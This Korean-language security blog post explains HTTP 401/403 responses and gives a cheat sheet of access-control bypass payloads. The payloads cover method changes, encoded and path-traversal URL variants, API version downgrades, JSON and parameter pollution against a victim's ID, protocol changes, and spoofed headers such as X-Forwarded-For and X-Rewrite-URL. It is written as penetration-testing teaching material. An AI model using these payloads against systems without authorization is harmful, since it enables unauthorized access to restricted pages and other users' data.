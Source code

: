 ```yaml
---
layout: single
title: 401&403(Access Control) Bypass
categories: Web-vuln
tag: [Forbidden, access control, 403 bypass]
toc: true
author_profile: false
---
```


## HTTP 상태코드 401&403
> 특정 페이지들을 살펴보다 보면, HTTP 상태코드로 401 또는 403으로 반환되는 경우가 종종 있다.  이 두 종류의 코드는 무엇일까?

### 401 Unauthorized
> HTTP 표준에서 Unatuhorized(미승인)으로 명시하고 있지만 해당 응답의 경우 비 인증을 의미할 수 있다. 즉  클라이언트 측에서 요청을 보내게 되면, 서버로 부터의 응답을 받기 위해 인증이 이루어져야 한다는 것이다.

### 403 Forbidden
> 흔히 볼 수 있는 응답코드로 권한과 관련되어있다. 해당 요청 클라이언트가 요청한 콘텐츠에 접근할 권한을 가지고 있지 않음을 나타낸다. 서버측에서 해당 클라이언트의 접근을 거부한다는 것이다.

# Bypass 401&403

HTTP 상태코드인 401과 403은 웹 사이트 정찰 과정에서 정말 많이 만나게된다.
<br>
이러한 상태코드를 우회할 수 있는 방법은 여러가지가 존재하며, 해당 상태 코드를 만나게 되었을 때
<br>
한번쯤 시도해볼만 하다.
1. **HTTP Method 변경**  : (GET, POST, PUT, DELETE) 등과 같은 Method를 사용하여 접근을 시도해볼 수 있다.
2. **URL 인코딩 변경** : 요청 URL을 인코등 혹인 더블 인코딩 또는 유니코드 인코딩을 통해 우회 시도를 해볼 수 있다.
3. **Path Traversal** : ‘./’ 과 같은 경로조작을 통해 우회 시도를 해볼 수 있다.
4. **대소문자 변경** : 대소문자를 구별하지 않을 수 있으니, 대소문자 변경을 통해 우회 시도를 해볼 수 있다.
5. **HTTP Header 조작** : x-Forwarded, referer 와 같은 헤더를 통해 서버를 속여 우회 시도를 해볼 수 있다.
6. **URL Fragment 삽입** : URL 끝단에 Fragment를 삽입함으로써 우회를 시도해볼 수 있다.

## 1. HTTP Method 변경
HTTP 요청 Requests에는 여러 종류의 Method가 존재한다. 이를 다양하게 변경하여 요청하는것도 좋은 테스팅 방법일 수 있다.
<br>
POST 요청에서 사용되는 방식을 GET 형식으로 파라미터를 통해 요청이 가능하다.

```
methods:
    - GET
    - HEAD
    - POST
    - PUT
    - DELETE
    - CONNECT
    - OPTIONS
    - TRACE
    - PATCH

GET /admindirectory/ HTTP/1.1
POST /admindirectory/ HTTP/1.1
PUT /admindirectory/ HTTP/1.1
HEAD /admindirectory/ HTTP/1.1
```
> 추가적으로 User-Agent를 조작하여서도 우회가 가능하다.

웹 브라우저에 access 할 때 사용하는 브라우저/OS 등에 따라 제공하는 서비스가 다를 수 있다.

## 2. URL 인코딩 변경
> .. 와같은 문자들을 여러 종류의 인코딩 방법으로 우회가 가능하다.

```
Original: //admin
URL: /%2fadmin
DURL: /%252fadmin
Unicode: /%ef%bc%8fadmin
```

## 3. Path Traversal
> Path Traversal 취약점을 응용하여 401 또는 403 상태코드를 우회할 수 있다.

```
target.com/secret
target.com/%2e/secret
/secret%20
/secret%09
/secret%00
/%90/secret
/%2e/secret
/secret/
/secret/.
//secret//
/./secret
/;/secret
/.;secret
//;//secret
/secret..;/
/secret/..;/
/secret.json
/secret.css
/secret.html
/secret?
/secret??
/secret???
/secret?testparam
/secret#
/secret#test
/...
/..%00
/..%01
/..%0a
/..%0d
/..%09
/~root
/~admin
/%20/
/%2e%2e/
/%252e%252e/
/%c0%af/
/%e0%80%af
site.com/secret/
site.com/secret/.
site.com//secret//
site.com/./secret/..
site.com/;/secret
site.com/.;/secret
site.com//;//secret
site.com/secret.json –> HTTP 200 OK (ruby)
```

## 4. 대소문자 변경

```
Original: /admin
Upper: /ADMIN
```

기타 API 사용할 경우 버전변경을 통해서도 가능하다
{% raw %}
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)
user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)
```
{% endraw %}
## #프로토콜 변경을 통해서도 가능하다.

```
protocol_versions:
    - "0.9"
    - "1.0"
    - "1.1"
    - "2"

https://trust.com -> 200 403 or 401
http://trust.com -> 200 ok
```

## 5. HTTP Header 조작
일부 HTTP Header 은 클라이언트의 IP 혹은 HOST 정보를 속일 수 있다.
<br>
예를 들어 IP 주소 필터링에만 의존하는 웹 서버가 존재한다면 X-Forwarded-For 헤더를 사용해서
<br>
손쉽게 우회를 시도해볼 수 있다.

```
사용가능 HTTP 요청 헤더
    - X-Forwarded-For
    - X-Forward-For
    - X-Forwarded-Host
    - X-Forwarded-Proto
    - Forwarded
    - Via
    - X-Real-IP
    - X-Remote-IP
    - X-Remote-Addr
    - X-Trusted-IP
    - X-Requested-By
    - X-Requested-For
    - X-Forwarded-Server
		- Host: localhost
		- X-ProxyUser-I
		- Redirect: http://localhost
    - Referer: http://localhost
    - X-Original-URL
''' 등등
```

## 6. URL Fragment 삽입

```
https://trust.com -> 200 403 or 401
http://trust.com#fragment -> 200 ok
```

## 7. X-Rewirte-URL 헤더를 통한 경로 재지정
> X-Rewrite-URL 헤더를 허용하는 서버가 존재한다면, 접근 제한이 걸린 페이지를 백엔드에서 url을 설정 하여 접근할 수 있다.

```
GET /admin/ HTTP/1.1 -> 403

GET / HTTP/1.1 -> 200 ok
X-Rewrite-URL: /admin/
```

# Reference
- https://www.hahwul.com/2021/10/08/bypass-403/
- https://www.codelivly.com/401-403-bypass-cheatsheet/
- https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses